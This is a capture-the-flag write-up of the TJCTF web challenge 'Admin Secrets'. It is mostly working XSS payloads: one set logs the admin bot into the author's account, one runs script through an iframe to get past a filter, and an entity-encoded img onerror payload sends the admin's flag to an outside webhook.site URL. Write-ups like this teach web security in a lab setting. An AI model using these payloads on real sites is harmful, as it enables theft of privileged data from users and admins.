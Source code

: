 ### Admin Secrets

Admin Secrets was the last web challenge, with 71 solves and 100 points. I also got first-blood on this challenge ~4 hours into the competition, which I was really happy with!

The website was a "Textbin", where you could register and create posts with any HTML tags you wanted. You could also report posts to the admin. Another obvious XSS challenge.

However, when I first tried reporting to the admin, it wasn't able to connect to any outside resources. I later learned that this was a problem with the website initially, and that it worked later. Well, I solved the problem under the assumption it couldn't connect anywhere :P.

The way I got around this (non-existent) problem was getting the admin to log into my account and create a post to my list of posts. I used the following code segment with jQuery to do this:

```javascript
$.post("/login_worker", {username: "Strellic", password: "12345" }, () => {
	$.post("/create_worker", {text: resp});
});
```

Now that I could get responses from the admin, I now needed to find the flag. Looking at the source of the post website, I saw:
![](./images/source.png)

Obviously, the flag would be there!

I used the following script to grab that data:

```javascript
window.onload = () => {
	$.post("/login_worker", {username: "Strellic", password: "12345" }, () => {
		$.post("/create_worker", {text: $(".admin_console").html()});
	});
}
```

However, upon viewing my new post, I saw that the admin console just had three buttons. However, one of the buttons was named Access Flag. Clicking the button would send a request to `/admin_flag` and respond with the flag. Easy enough.

```javascript
window.onload = () => {
	$.get("/admin_flag", flag => {
		$.post("/login_worker", {username: "Strellic", password: "12345" }, () => {
			$.post("/create_worker", {text: flag});
		});
	});
}
```

![](./images/getrekt.png)

Oh boy. Actually, when I solved this challenge on day 1, it gave me no information on why my post contained unsafe content. 

So, I had to find a way to bypass the XSS filter and still get the admin to send me the flag. The intended solution was to encode your payload enough to bypass the filter. However, I thought about it in a different way - if the website checks the post to see if there's JavaScript, why not have any JavaScript in the post?

My idea was to create an iframe using the XSS, and inject Javascript INTO the iframe that would fetch the flag and send it to me. Here was my payload:

```javascript
window.onload = () => {
    let iframe = document.createElement("iframe");
    iframe.src = "/posts/pjdNubwOj!FA71Qg";
    iframe.onload = () => {
        iframe.contentWindow.$.ajax({
            type: "GET",
            url: "/admin_flag",
            success: function(resp) {
                iframe.contentWindow.$.post("/login_worker", {username: "Strellic", password: "12345" }, () => {
                    iframe.contentWindow.$.post("/create_worker", {text: resp});
                });
            }
        });
    };
    document.body.appendChild(iframe);
}
```

The iframe.src links to a blank post that I made with no JavaScript on it. When the admin views the page, it'll create an iframe with the post, and run JavaScript from that iFrame's context! Then, it'll send me the flag by creating a new post on my profile.

![](./images/flag.png)

A pretty cool and unintended solution!


```
tjctf{st0p_st3aling_th3_ADm1ns_fl4gs}
```




**Note from Drakon:** I solved this the intended way, and I bypassed the filter by just encoding my characters with HTML entities.

The Javascript itself is pretty basic:
```
var script = document.createElement("script");
script.src = "https://code.jquery.com/jquery-3.3.1.min.js";
document.head.appendChild(script);
window.addEventListener("load", function ()
{
	$.ajax(
		{
		type: "GET",
		url: "/admin_flag",
		success: function(resp) {
			flag=resp;
			document.location="https://webhook.site/72244fec-fd93-42f5-8b09-797fccfd078d?c="+btoa(flag);
			}
		}
	);
})
```

I executed the script with the `onerror` attribute, and since you don't need quotes for attributes (as long as the attributes themselves have no spaces or quotes), you can just leave them out.

One small snag was the fact that my solve used jquery, and jquery is loaded in *after* the XSS, so I had to use JS to create a `<script>` tag. The final payload was:
```<img src=lol onerror=var&nbsp;script&nbsp;&equals;&nbsp;document&period;createElement&lpar;&quot;script&quot;&rpar;&semi;&nbsp;script&period;src&nbsp;&equals;&nbsp;&quot;https&colon;&sol;&sol;code&period;jquery&period;com&sol;jquery-3&period;3&period;1&period;min&period;js&quot;&semi;&nbsp;document&period;head&period;appendChild&lpar;script&rpar;&semi;&nbsp;window&period;addEventListener&lpar;&quot;load&quot;&comma;&nbsp;function&nbsp;&lpar;&rpar;&nbsp;&lcub;&dollar;&period;ajax&lpar;&lcub;type&colon;&nbsp;&quot;GET&quot;&comma;url&colon;&nbsp;&quot;&sol;admin&lowbar;flag&quot;&comma;success&colon;&nbsp;function&lpar;resp&rpar;&nbsp;&lcub;flag&equals;resp&semi;document&period;location&equals;&quot;https&colon;&sol;&sol;webhook&period;site&sol;72244fec-fd93-42f5-8b09-797fccfd078d&quest;c&equals;&quot;&plus;btoa&lpar;flag&rpar;&semi;&rcub;&rcub;&rpar;&semi;&rcub;&rpar;>```

